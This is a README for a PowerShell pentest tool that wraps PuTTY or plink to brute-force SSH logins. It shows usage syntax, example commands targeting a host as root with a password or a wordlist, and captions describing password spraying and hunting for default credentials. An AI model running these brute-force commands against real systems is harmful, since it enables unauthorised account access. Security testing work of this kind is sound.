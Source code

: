 # SSH PuTTY login bruteforcer

The **ssh-putty-brute.ps1** is a wrapper script which uses PuTTY clients (either **putty.exe** or **plink.exe**) to perform SSH login bruteforce attacks.

See the main article here for detailed description: https://www.infosecmatter.com/ssh-login-bruteforcer-using-putty-plink/

## Usage and examples

The tool requires either **putty.exe** or **plink.exe** executables in the PATH or in the current working directory.

Here's how to use this tool:

```
import-module .\ssh-putty-brute.ps1

# Usage:
ssh-putty-brute [-h ip|ips.txt] [-p port] [-u user|users.txt] [-pw pass|pwdlist.txt]

# Examples:
ssh-putty-brute -h 10.10.5.11 -p 22 -u root -pw P@ssw0rd
ssh-putty-brute -h 10.10.5.11 -p 22 -u root -pw (Get-Content .\pwdlist.txt)
```

## Screenshots

SSH login attack against a single target:

![ssh-putty-bruteforce-login-attack-0](https://user-images.githubusercontent.com/60963123/80275175-93e8c500-86f0-11ea-9838-346e68f404b5.png)

SSH password spraying accross the network:

![ssh-putty-bruteforce-login-attack-password-spraying](https://user-images.githubusercontent.com/60963123/80275055-e8d80b80-86ef-11ea-9ada-1fc84ce58f71.png)

Hunting for default SSH credentials:

![ssh-putty-bruteforce-login-attack-full](https://user-images.githubusercontent.com/60963123/80275192-af53d000-86f0-11ea-80bb-e52cdd490753.png)

For more information, visit: https://www.infosecmatter.com/ssh-login-bruteforcer-using-putty-plink/
